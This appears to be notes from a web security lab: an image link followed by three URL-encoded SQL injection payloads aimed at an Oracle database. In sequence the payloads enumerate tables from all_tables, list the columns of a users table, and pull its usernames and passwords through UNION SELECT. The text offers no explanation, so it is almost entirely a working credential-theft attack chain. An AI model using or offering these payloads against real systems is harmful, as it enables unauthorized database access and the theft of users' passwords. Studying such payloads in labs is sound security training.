 '+UNION+SELECT+null,table_name+FROM+all_tables--
'+UNION+SELECT+null,column_name+FROM+all_tab_columns+where+table_name%3d'USERS_QMUHVR'--
'+UNION+SELECT+USERNAME_SPPHIP,PASSWORD_LPBCLO+FROM+USERS_QMUHVR--
